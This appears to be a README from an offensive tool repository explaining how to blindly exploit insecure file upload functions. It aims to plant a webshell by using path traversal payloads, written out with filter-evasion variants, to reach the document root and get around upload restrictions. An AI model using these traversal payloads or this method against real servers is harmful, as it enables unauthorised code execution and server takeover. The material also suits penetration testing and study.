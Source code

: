 Blindly exploiting insecure file upload implementations

The general assumptions are as follows:
- we have a file upload function in the application and we have some sample, valid file that is accepted (e.g. a JPEG image)
- our goal is to upload an executable (a webshell), but we do not know what the remote document root is, we also do not know what are the file upload restrictions in place

First of all, we will attempt to find a way to reach the document root. After we achieve that, we can focus on uploading malicious files instead of legitimate ones. It is better to start with a legitimate file in order to decrease the likehood of failure due to forbidden content/extension and focus on reaching the document root first.

1) Reaching the document root

There are two scenarios we may face when blindly attacking the upload dir:

a) the upload dir is located in the document root, in such case we should do fine without knowing its path at all, as it should be sufficient to attack with path traversal payloads reflecting several layers of nesting in order to hit the document root itself. It might be reasonable to employ a basic evasive technique at this point already (for non-recursive removals of '../' and './':

./../test.jpg
./../../test.jpg
./../../../test.jpg
./../../../../test.jpg
./../../../../../test.jpg
./../../../../../../test.jpg
./../../../../../../../test.jpg
./../../../../../../../../test.jpg


./....//test.jpg
./....//....//test.jpg
./....//....//....//test.jpg
./....//....//....//....//test.jpg
./....//....//....//....//....//test.jpg
./....//....//....//....//....//....//test.jpg
./....//....//....//....//....//....//....//test.jpg
./....//....//....//....//....//....//....//....//test.jpg


..//...//test.jpg
..//...//...//test.jpg
..//...//...//...//test.jpg
..//...//...//...//...//test.jpg
..//...//...//...//...//...//test.jpg
..//...//...//...//...//...//...//test.jpg
..//...//...//...//...//...//...//...//test.jpg
..//...//...//...//...//...//...//...//...//test.jpg


b) the upload directory is located outside the document root, that is why we need to employ both directory traversal and full document root path guessing. 



After the series of file upload attempts, we check the document root for existance of the file we tried to create:
http://example.org/test.jpg

The default configuration of get_docroots.pl provides us with a full list of possible payloads covering both above scenarios.
Its list of known document root paths is generated the same way as with --os-shell feature in sqlmap. 
Please see the sample_results.txt file to see the results procuded with default configuration.


2) Bypassing any file upload restrictions

If the file is there, we use the relevant traversal payload in order to bypass any file upload restrictions (extension, content, mime type, size, etc). We may want to employ evasive techniques and use payload_generator.pl to generate a full list of versions of the right payload, according to all supported evasive techniques.

